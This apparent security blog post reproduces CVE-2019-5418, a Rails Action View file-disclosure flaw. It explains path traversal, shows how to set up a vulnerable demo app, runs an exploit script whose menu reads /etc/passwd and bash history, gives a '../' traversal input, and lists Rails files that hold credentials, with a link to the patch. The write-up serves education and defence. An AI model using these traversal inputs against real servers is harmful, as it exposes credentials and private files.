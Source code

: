 ```yaml
---
layout: post
title:  "RailRoadBandit CVE-2019-5418"
date:   2019-04-11
excerpt: "Reproducution and demonistration of the vulnerablity"
image: "/images/ruby_on_rails.png"
category: writeup
tags: [ruby, CVE,demo]
comments: false
---
```


## Intro:

There is a File Content Disclosure vulnerability in Action View affecting Rails versions <5.2.2.1, <5.1.6.2, <5.0.7.2, <4.2.11.1.
Specially crafted accept headers in combination with calls to '''render file: '''can cause arbitrary files on the target server to be rendered, disclosing the file contents.
The impact is limited to calls to '''render''' which render file contents without a specified accept format. 

## What is Rails?
Ruby on Rails, or Rails, is a server-side web application framework written in Ruby that uses the model–view–controller (MVC) structure pattern, providing default structures for a database, a web service, and web pages. 
<span class="image fit"><img src="{{ "/images/MVC.png" | absolute_url }}" alt="" /></span>

Rails is used to build full web applications like (Basecamp, GitHub, Shopify, Airbnb, Twitch, SoundCloud, Hulu, Zendesk, Square, Cookpad.)


### Path Traversal:

This vulnerability is a path traversal vulnerability (<a href="https://www.owasp.org/index.php/Top_10-2017_A5-Broken_Access_Control">OWASP Top 10: A5:2017-Broken Access Control</a>)
A path traversal attack (also known as directory traversal) aims to access files and directories that are stored outside the web root folder. By manipulating variables that reference files with “dot-dot-slash (../)” sequences and its variations or by using absolute file paths, it may be possible to access arbitrary files and directories stored on file system including application source code or configuration and critical system files. It should be noted that access to files is limited by system operational access control (such as in the case of locked or in-use files on the Microsoft Windows operating system).

This attack is also known as “dot-dot-slash,” “directory traversal,” “directory climbing” and “backtracking.” 
source: <a href="https://www.owasp.org/index.php/Path_Traversal">OWASP Path Traversal</a>


### reproducing:
To demonstrate the vulnerability, i bult a Ruby on Rails site: <a href="http://bandit.bad3r.xyz/">bandit.bad3r.xyz</a>
you can clone my site and run it locally by installing Ruby on Rails then cloning my repo <a href="https://github.com/Bad3r/RailroadBandit">Bad3r/RailRoadBandit</a>
Digital Ocean has an excellent guide to get you started make sure to install a vulnerable Rails (e.g 5.2.1): <a href="https://www.digitalocean.com/community/tutorials/how-to-install-ruby-on-rails-with-rbenv-on-ubuntu-18-04">
How To Install Ruby on Rails with rbenv on Ubuntu 18.04</a>
you can also create your demo manually by editing the default application controller in
~~~
<web root folder>/app/controllers/application_controller.rb
~~~
open the file and add a call to "render file:"
~~~ruby
class ApplicationController < ActionController::Base
    def index
        render file:  "#{Rails.root}/public/bandit/bandit.html"
    end
end
~~~
here am just rendering an html file but you can also render any text fle.then edit the route file located in 
~~~
<web root folder>/config/routes.rb
~~~
to add a route for the controller:
~~~ruby
Rails.application.routes.draw do
    get 'application/index' => 'application#index'
	root 'application#index'
end
~~~
thats all you need to follow this demo. you should check if the file is rendered correctly and the route.rb config is correct.


### Exploiting the vulnerability

the script used in the demo is available in my Github repo <a href="https://github.com/Bad3r/RailroadBandit">Bad3r/RailRoadBandit</a>
run the script using the format:
~~~Bash
┌ ~/RailroadBandit
└> % python3 Bandit.py http://bandit.bad3r.xyz/ 
~~~
then you will see a menu of builtin options to view some sensetive data:
~~~Bash

└> % python3 Bandit.py http://bandit.bad3r.xyz/

	----------------------------------------------
	Arbitrary Traversal exploit for Ruby on Rails
	                 CVE-2019-5418
	----------------------------------------------
	

             Enter an option or a file path (enter quit or q to exit)

             enter 1 for /etc/passwd 

             enter 2 for /proc/cpuinfo 

             enter 3 for bash history 

             enter 4 to brute force: 
~~~
you can use one of the builtin options or give the path for the file manually
~~~Bash
../../../../../../../../../etc/passwd
~~~

 here we use ../ for directory traversal, the result is:
<span class="image fit"><img src="{{ "/images/etc_passwd.png" | absolute_url }}" alt="" /></span>
 
am working on adding more features to the script like brute forcing the web root diretory name.


### Ruby on Rails sensitive files

there is some important files in ruby on rails that can also reveal sensitive information like:

| File                                 | Description |
|:-------------------------------------|:---------------------------------------------------:|
| /config/database.yml                 | May contain production credentials                  |
| /config/initializers/secret_token.rb | Contains a secret used to hash session cookie       |
| db/seeds.rb                          | May contain seed data including bootstrap admin user|
| /db/development.sqlite3              |May contain the SQL database                         |
|----

### Patch

https://github.com/rails/rails/commit/f4c70c2222180b8d9d924f00af0c7fd632e26715
<span class="image fit"><img src="{{ "/images/path_bandit.jpg" | absolute_url }}" alt="" /></span>
